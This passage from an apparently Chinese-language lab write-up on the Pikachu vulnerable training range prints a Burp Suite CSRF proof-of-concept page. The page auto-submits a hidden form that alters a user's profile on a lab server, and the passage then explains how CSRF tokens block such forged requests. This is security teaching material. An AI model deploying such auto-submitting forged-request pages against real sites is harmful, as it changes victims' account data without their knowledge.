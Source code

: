 ```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.80.139/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="woman" />
      <input type="hidden" name="phonenum" value="110110110" />
      <input type="hidden" name="add" value="北京" />
      <input type="hidden" name="email" value="3123@qq.com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20230815212513872](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815212513872.png)

### CSRF Token 

分析一下这个token的作用了。按照前面csrf get的方法，攻击者会伪造一个GET  URL去让用户点击。但用户正常提供GET请求时，会把服务器返回的token填入和提交，而攻击者伪造URL时除非前期抓包获取到这个返回的token，否则他是不会知道这个token的。所以攻击者无法构造GET URL。同理，对于POST方法也是一样。所以，使用token是一个很好的防御CSRF攻击的方法。

# 4、SQL-Injection
